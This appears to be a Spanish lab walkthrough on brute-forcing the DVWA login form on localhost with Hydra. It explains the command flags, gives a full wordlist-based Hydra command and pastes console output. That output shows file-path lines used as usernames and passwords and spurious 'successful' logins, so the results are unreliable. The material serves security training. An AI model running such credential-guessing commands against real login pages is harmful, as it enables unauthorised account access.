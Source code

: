 **Explicación:**

- -l admin → usuario fijo.

- -P → diccionario de contraseñas.

- http-post-form → ataque contra un formulario POST.

- /vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Login failed

  - Ruta vulnerable.

  - ^USER^ y ^PASS^ son reemplazados por Hydra.

  - "Login failed" es el texto que aparece cuando falla el login (Hydra lo usa para distinguir intentos válidos).

- -t 4 → número de hilos concurrentes.

- -s 8080 → puerto donde corre DVWA.

<img width="935" height="356" alt="imagen" src="https://github.com/user-attachments/assets/7553c703-b71f-4698-af37-7a71998817b8" />

<img width="360" height="333" alt="imagen" src="https://github.com/user-attachments/assets/adf525fe-c123-4198-b44d-398ad5f3e71c" />

## 🔎 Paso 3: Ataque con diccionario de usuarios y contraseñas

Si no sabemos usuarios válidos, podemos probar con diccionarios:

```bash
hydra -L users.txt -P passwords.txt 127.0.0.1 http-post-form \
"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Login failed" \
-V -I -t 4 -s 8080
```

Donde:

- users.txt → contiene posibles nombres de usuario.
- passwords.txt → contiene posibles contraseñas.

Salida consola:

<reason>";   password: /etc/php5/apache2/php.ini:; *Any* user with PHP access can run 'echo get_cfg_var("mysql.default_password")
[ATTEMPT] target 127.0.0.1 - login "/etc/unreal/help.conf:      " Syntax:  GLINE <user@host mask or nick> [time] <reason>";" - pass "/etc/php5/apache2/php.ini:; *Any* user with PHP access can run 'echo get_cfg_var("mysql.default_password")" - 561540 of 577936 [child 1] (0/0)
[8080][http-post-form] host: 127.0.0.1   login: /etc/unreal/help.conf:  " Syntax:  GLINE <user@host mask or nick> [time] <reason>";   password: /etc/php5/apache2/php.ini:; Define the anonymous ftp password (your email address)
[ATTEMPT] target 127.0.0.1 - login "/etc/unreal/help.conf:      "  (Adds a G:line for user@host)";" - pass "/etc/php5/apache2/php.ini:; Define the anonymous ftp password (your email address)" - 561865 of 577936 [child 0] (0/0)
[8080][http-post-form] host: 127.0.0.1   login: /etc/unreal/help.conf:  " Syntax:  GLINE <user@host mask or nick> [time] <reason>";   password: /etc/php5/apache2/php.ini:; Default password for mysql_connect() (doesn't apply in safe mode).
[ATTEMPT] target 127.0.0.1 - login "/etc/unreal/help.conf:      "  (Adds a G:line for user@host)";" - pass "/etc/php5/apache2/php.ini:; Default password for mysql_connect() (doesn't apply in safe mode)." - 561866 of 577936 [child 2] (0/0)
[8080][http-post-form] host: 127.0.0.1   login: /etc/unreal/help.conf:  " Syntax:  GLINE <user@host mask or nick> [time] <reason>";   password: /etc/php5/apache2/php.ini:; Note that this is generally a *bad* idea to store passwords in this file.
[ATTEMPT] target 127.0.0.1 - login "/etc/unreal/help.conf:      "  (Adds a G:line for user@host)";" - pass "/etc/php5/apache2/php.ini:; Note that this is generally a *bad* idea to store passwords in this file." - 561867 of 577936 [child 3] (0/0)
[8080][http-post-form] host: 127.0.0.1   login: /etc/unreal/help.conf:  " Syntax:  GLINE <user@host mask or nick> [time] <reason>";   password: /etc/php5/apache2/php.ini:; *Any* user with PHP access can run 'echo get_cfg_var("mysql.default_password")